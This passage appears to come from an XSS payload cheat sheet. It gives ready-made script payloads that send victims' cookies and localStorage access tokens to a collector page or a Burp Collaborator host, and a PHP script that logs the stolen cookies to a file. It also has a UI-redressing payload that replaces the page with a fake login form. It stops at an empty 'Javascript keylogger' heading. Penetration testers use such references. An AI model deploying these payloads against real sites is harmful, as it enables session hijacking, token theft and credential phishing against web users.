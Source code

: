 

## Exploit code or POC

### Data grabber for XSS

Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

Write the collected data into a file.

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

### CORS

```html
<script>
  fetch('https://<SESSION>.burpcollaborator.net', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```

### UI redressing

Leverage the XSS to modify the HTML content of the page in order to display a fake login form.

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>"
</script>
```

### Javascript keylogger
